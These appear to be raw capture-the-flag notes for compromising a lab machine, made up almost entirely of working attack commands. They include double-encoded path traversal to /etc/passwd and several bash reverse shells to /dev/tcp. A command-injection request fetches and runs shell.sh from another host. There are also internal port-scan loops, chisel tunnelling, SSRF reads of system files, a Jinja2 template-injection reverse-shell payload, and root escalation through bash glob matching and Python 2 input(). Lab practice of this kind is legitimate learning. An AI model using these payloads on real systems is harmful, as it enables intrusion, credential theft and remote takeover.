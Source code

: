 

Burp double encoding

http://10.10.165.132/page/%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd

/page/%252fvar/www/html/index.php

bash -c 'bash -i >& /dev/tcp/10.10.160.106/4445 0>&1'

POST /gen.php HTTP/1.1
Host: localhost
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

length=8;sh -c "$(curl -s 10.10.235.24:8000/shell.sh)"


================
for p in 22 80 443 3000 5000 6379 8000 8080 8081 9000 27017 3306 5432; do
  (echo > /dev/tcp/172.18.0.1/$p) >/dev/null 2>&1 && echo "host 172.18.0.1 has $p open"
done

for h in $(seq 1 10); do
  ip=172.18.0.$h
  for p in 22 80 443 3000 5000 6379 8000 8080 8081 9000 27017 3306 5432; do
    (echo > /dev/tcp/$ip/$p) >/dev/null 2>&1 && echo "$ip:$p open"
  done
done


curl -X POST -d 'website_url=file:///etc/passwd' http://172.18.0.1:5000


./chisel server -p 9000 --reverse

chisel client 10.10.199.180:9000 R:5000:172.18.0.1:5000 &

access: http://localhost:5000


===========

curl -X POST -d 'website_url=file:///etc/passwd' http://172.18.0.1:5000
file:///etc/passwd

file:///proc/self/environ  
file:///proc/self/cmdline

file:///home/hansolo/app/app.py

Server-Side Template Injection (SSTI) 

return render_template_string(website_content)

The content from pycurl is directly inserted into the template with %s formatting, then passed to render_template_string(). This means any Jinja2 template code in the fetched content will be executed!

test to confirm {{7*7}}

echo "{{config.__class__.__init__.__globals__['os'].popen('bash -c \"bash -i >& /dev/tcp/10.10.160.106/4444 0>&1\"').read()}}" > shell.html

stabilise the shell:

python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

stty raw -echo; fg



./chisel server -p 9000 --reverse

chisel client 10.10.160.106:9000 R:5000:172.18.0.1:5000

access: http://localhost:5000
===


vault sript:

if [[ $content == $user_input ]]; uses bash pattern matching, not exact string comparison. This means:

* acts as a wildcard that matches ANY content
? matches any single character
[abc] matches any character in brackets

find password length:

? - see if it's 1 character
?? - see if it's 2 characters

[a-z]??????????? (lowercase)
[A-Z]??????????? (uppercase)
[0-9]??????????? (number)

or you can automate it using script

========

app.py

secret = input("Any words you want to add to the password? ")

In Python 2, the input() function is extremely dangerous. It does not read the user's entry as a string; instead, it evaluates the input as Python code. 

This means an attacker can provide any valid Python code at that prompt, and the script will execute it as the user running the script (in this case, root).

Python 2:

input() - Evaluates input as Python code (DANGEROUS)
raw_input() - Returns input as a string (SAFE)

Python 3:

input() - Returns input as a string (SAFE)
raw_input() - Doesn't exist

try:
    length = int(raw_input("Enter the desired length of the password: "))
except NameError:
    length = int(input("Enter the desired length of the password: "))

- Script tries raw_input() first (Python 2 syntax)
- If that fails (Python 3), it falls back to input()
- This means it's designed to work with both Python versions


__import__('os').system('/bin/bash')
